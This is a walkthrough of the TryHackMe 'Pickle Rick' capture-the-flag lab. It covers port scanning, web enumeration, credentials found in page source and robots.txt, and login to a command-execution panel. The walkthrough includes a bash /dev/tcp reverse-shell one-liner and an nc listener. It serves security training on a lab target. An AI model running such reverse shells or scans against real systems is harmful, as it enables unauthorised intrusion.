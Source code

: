 ```yaml
---
title: TryHackMe - PickleRick
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, rustscan, privesc, http, ssh, command_injection]
img_path: /assets/img/Pickle_Rick
image:
    path: 0.png
---
```


# Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application:

After deploying the machine, I got this IP address: 10.10.103.97

First step I ran a port scan using rust scan then passed the results to nmap for further enumeration.

## Command:
```sh
rustscan -a 10.10.103.97 --ulimit 5000 -- -sV -sC -A 
```
## Results:
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 74:70:7d:9f:98:e4:cd:52:32:c0:ff:f5:36:e1:d0:ee (RSA)
| ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABgQC1Vs3KBBL61RwHQIuO7T3eipuIl9cCXfeu2r2xeYuOgO3nDc5Ne5Obe3x7
vLHFgmWB+H9XvTfF2V0RzTaMrwbY3kl5SOEyO06li5hsOUkbAX5C0SNy7JuY4LUmO5yMl5uDLIRTnUxiINoQvs73s3
FiW7dW+JSP/g45BIpjcXjmT/PnpJFXdRNFRLM/
Q7qSBBiV9ZzSJaGZ7YTV0eKoTxVzCPgakYFfW73t1vHpbzj8iwsF90evJcJpL+YwngAEs0LouGGYZn5HR7W3OWIGX-
nBGNIl7ckVee+1CpGesNT3Cbo7on1b0QIV7D5V0hBroixInxLkUc+3Htz+2+FfF1a5N31iBDMOcF+lawOjh2l/
7v6q52PKUcDiqMkTikJ5k63rXQM1rLXgmOyQqTFrJ9vDdmw78w6LnJl1li2DxPVkBTDZepLahueKwqw/
+mjuTy4USEO5+eYL1fVtP4mrexN+TeSB6XEZozHnmI9Wg+m8RCZtRjnp/YXLrUxRUGvhUOJk=
|   256 05:f9:06:09:4a:e7:72:4c:db:90:8d:f9:39:36:b0:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJYDUeKr/1OZ7U6+X/
d8gUozr2898+u24rcy3LtI+9DFPNDJao7i7d6bAfwLA8q87Iy2PwhvE10Shgd328+GwdI=
|   256 55:28:85:f3:62:63:e3:db:4b:ca:a8:59:76:24:6c:15 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGA6kp/0ZDDDylA9pNJK9A5y/aIMSOfvJYhS739xdVGi
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Rick is sup4r cool

```
We have two open ports that is ssh (22) and http (80).

ssh will need user login details that we don't have yet so we'll skip that and move on to HTTP (80).



# WEB ENUMERATION  
  
## To Do list 

- Visit the site  
- Look around for any useful details  
- View the source code  
- Visit robots.txt  
- Run gobuster  



## The site
![](/assets/img/Pickle_Rick/1.png)
From the content, I think I will have to use burp suite at some point.  
But let's continue and come back to it later on.


## Source code
![](/assets/img/Pickle_Rick/2.png)

Here I get a username that is good.
- Username: R1ckRul3s

## Robots.txt
![](/assets/img/Pickle_Rick/3.png)

Got this text but not sure what it is:  
- "Wubbalubbadubdub"

## Gobuster

## Command
```sh
gobuster dir -u http://10.10.103.97 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
The wordlist was taking some time and giving me lots of errors so I changed to ...../dirb/common.txt
![](/assets/img/Pickle_Rick/4.png)


## Run nikto scan


```sh
nikto -h 10.10.103.97
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.103.97
+ Target Hostname:    10.10.103.97
+ Target Port:        80
+ Start Time:         2024-06-21 15:22:25 (GMT3)
---------------------------------------------------------------------------
## /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/
Web/HTTP/Cookies

```
![](/assets/img/Pickle_Rick/5.png)

At least now I know what to do with the username and the other text from robots.txt:  
- username: R1ckRul3s  
- password: Wubbalubbadubdub  

Successful login  
![](/assets/img/Pickle_Rick/6.png)


Here we can execute commands.  
Before that, I want to try something.  
I want to get a reverse shell to my machine. Hope it works.  

Here is a bash reverse shell :  

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```

Modified it to work with my IP:

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/1234 <&1'
```

Then made a nc listener on my attacker pc:

```sh
nc -lvp 1234
```

It worked. Now I have a shell....

The user has all root privs.  
# GO GET THE FLAGS!!!